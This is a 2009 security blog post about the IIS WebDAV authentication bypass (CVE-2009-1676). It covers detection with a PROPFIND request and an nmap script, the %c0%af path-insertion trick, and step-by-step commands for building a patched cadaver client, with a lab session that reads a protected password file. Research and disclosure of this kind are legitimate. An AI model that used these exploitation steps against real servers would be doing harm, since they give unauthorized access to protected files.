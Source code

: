 ```yaml
---
id: 285
title: 'WebDAV Detection, Vulnerability Checking and Exploitation'
date: '2009-05-20T18:10:43-05:00'
author: Andrew
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=285'
permalink: /2009/webdav-detection-vulnerability-checking-and-exploitation
categories:
    - hacking
    - tools
---
```


Ahoy! My name is Andrew and I've been playing with the recent IIS WebDAV authentication bypass vulnerability (<a href="http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-1676">CVE-2009-1676</a>) and helping Ron with writing the nmap detection script (http-iis-webdav-vuln.nse) and testing it in the lab. Ron is in a meeting today so I thought I'd jump in where he left off and post a bit about how to detect if WebDAV is enabled and how to actually exploit a folder once you've determined it is vulnerable.

<!--more-->

The first thing one should know when playing with this vulnerability is that the IIS server is not exploitable if the root folder is protected. Also if the root folder is protected, there is no way to determine if WebDAV is even enabled. That being said, if the root folder is _not_ protected then it's time to break out the funky cold medina and have some fun.

<h2>Detecting if WebDAV is enabled</h2>

Tested working on
 * IIS 6.0/Windows 2003 Enterprise SP2
 * IIS 5.1/Windows XP Pro SP2
 * IIS 5.0/Windows 2000 SP4
	
On IIS 6.0, WebDAV is disabled by default. On IIS 5.0 and 5.1, WebDAV is enabled by default and you must edit the registry to disable it.

My method of detection simply involves running a PROPFIND request on the server. This is the same basic PROPFIND request we used in the http-iis-webdav-vuln.nse script:

<pre>
PROPFIND / HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/xml
Content-Length: 298

&lt;?xml version=&quot;1.0&quot; encoding=&quot;utf-8&quot;?&gt;
&lt;propfind xmlns=&quot;DAV:&quot;&gt;
&lt;prop&gt;
&lt;getcontentlength xmlns=&quot;DAV:&quot;/&gt;
&lt;getlastmodified xmlns=&quot;DAV:&quot;/&gt;
&lt;executable xmlns=&quot;http://apache.org/dav/props/&quot;/&gt;
&lt;resourcetype xmlns=&quot;DAV:&quot;/&gt;
&lt;checked-in xmlns=&quot;DAV:&quot;/&gt;
&lt;checked-out xmlns=&quot;DAV:&quot;/&gt;
&lt;/prop&gt;
&lt;/propfind&gt;
</pre>

When WebDAV is enabled, it should return "HTTP/1.1 207 Multi-Status".

When WebDAV has been disabled, it should return "HTTP/1.1 501 Not Supported".

This is the method I've implemented in the http-iis-webdav-vuln.nse script. It works great in the lab on IIS servers. If we get back anything other than a 207 or 501 then we jump ship saying the web server is not supported. An Ubuntu server running Apache returns a 405 Method Not Allowed for instance.
	
<h2>Checking if a server is vulnerable</h2>

Tested working on
 * IIS 6.0/Windows 2003 Enterprise SP2
 * IIS 5.1/Windows XP Pro SP2

Tested not working on
 * IIS 5.0/Windows 2000 SP4

The original script only used one type of check; it would first find a protected folder (/secret/) and then try inserting the %c0%af character after the first /. It would turn /secret/ into /%c0%afsecret/.

This worked fine on IIS 6.0 but did not work at all on IIS 5.0/5.1. After playing with it some more today, we managed to get it working on IIS 5.1. The trick with 5.1 is that the %c0%af character can not be right after the / but must be somewhere in the middle of the folder name. This also works on IIS 6.0. I modified the script so that it uses the 5.1/6.0 check, turning /secret/ into /s%c0%afecret/.
	
<h2>Finding a vulnerable server</h2>

Tested working on
 * IIS 6.0/Windows 2003 Enterprise SP2
 * IIS 5.1/Windows XP Pro SP2

Tested not working on
 * IIS 5.0/Windows 2000 SP4
	
Now for the fun part. If you havent turned on some funky cold medina yet, get to it because we're almost done!

First thing we need to do is find a vulnerable server. I just happen to know of a Windows 2003 box in my lab running IIS 6.0 that is vulnerable (fully patched up to today btw). Lets see how an nmap scan of this box with the updated script works out:

<pre>
> ./nmap -T4 -p80 --script=http-iis-webdav-vuln xxx.xxx.xxx.xxx

Starting Nmap 4.85BETA9 ( http://nmap.org ) at 2009-05-20 14:29 CDT
Interesting ports on xxx.xxx.xxx.xxx:
PORT   STATE SERVICE
80/tcp open  http
|_ http-iis-webdav-vuln: WebDAV is ENABLED. Vulnerable folders discovered: /private, /secret, /webdav

Nmap done: 1 IP address (1 host up) scanned in 21.41 seconds
</pre>

Interesting! So now we know the server has WebDAV enabled and that there are three vulnerable folders.

<h2>Exploiting it!</h2>

Now we could do everything by telnet-ing over port 80, but that's not much fun (believe me, it's very tedious!) so I went looking for a WebDAV client. I stumbled upon a FOSS one called <a href="http://www.webdav.org/cadaver/">cadaver</a>, and based purely on the name I grabbed it. Now cadaver itself is a great little command line WebDAV client but I quickly realized it has a bunch of problems that won't let us do what we wanted. The nice thing about FOSS is that it's open, so we grabbed the <a href="http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz">cadaver-0.23.2 source</a> and after hacking away at it for awhile, we came up with <a href="http://www.skullsecurity.org/blogdata/cadaver-0.23.2-h4x.patch">a little patch</a> that makes it quite easy to exploit a server. Check <a href="http://www.skullsecurity.org/blogdata/cadaver-0.23.2-h4x.patch">the patch itself</a> for the gritty details but basically it does the following:

1) Replace any "Depth: 0" header with "Depth: 1" (otherwise ls won't work)
2) Append the header "Translate: f" to every request (otherwise get and probably others won't work)
3) Insert the characters "%c0%af" into any uri request longer than 1 character.

So, grab the <a href="http://www.skullsecurity.org/blogdata/cadaver-0.23.2-h4x.patch">cadaver-0.23.2-h4x.patch</a> and apply it to the <a href="http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz">cadaver-0.23.2 source</a> from the <a href="http://www.webdav.org/cadaver/">cadaver website</a>. Here's the commands:

<pre>
> mkdir cadaver-h4x
> cd cadaver-h4x
> wget http://www.skullsecurity.org/blogdata/cadaver-0.23.2-h4x.patch
--snip--
> wget http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz
--snip--
> tar xzvf cadaver-0.23.2.tar.gz
--snip--
> cd cadaver-0.23.2/
> patch -p1 < ../cadaver-0.23.2-h4x.patch
patching file lib/neon/ne_basic.c
patching file lib/neon/ne_request.c
patching file lib/neon/ne_uri.c
> ./configure
--snip--
> make
--snip--
</pre>

Now we should have a patched, compiled version of cadaver, so start it up with the server that was identified as having a vulnerable folder earlier:

<pre>
> ./cadaver xxx.xxx.xxx.xxx
</pre>

This should drop you to a "dav:/>" prompt. Now just cd into the vulnerable folder and check out what's there:

<pre>
dav:/> cd secret
dav:/secret/> ls
Listing collection `/secret/': succeeded.
        password.txt                           7  May 19 10:40
dav:/secret/> cat password.txt
Displaying `/secret/password.txt':
ron$pr0ns
dav:/secret/>
</pre>

And there you have it!

Here's a list of commands that I've tested that work with the patched cadaver on a vulnerable folder:
 * CD
 * LS
 * MOVE
 * PUT
 * GET
 * CAT
 * DELETE

Oddly enough, the <b>COPY</b> command does <b>NOT</b> work. We didn't have time to investigate why, but the functionality can be duplicated by a get/local rename/put.

Also, this patched cadaver will not work for browsing regular WebDAV folders (non-vulnerable), so don't try.

If anyone has been able to successfully exploit this on IIS 5.0 (Windows 2000), please contact me, we've been trying and can't get it to work in the lab here.

Comments are welcome, you can also contact me by e-mail: andrew at andreworr dot ca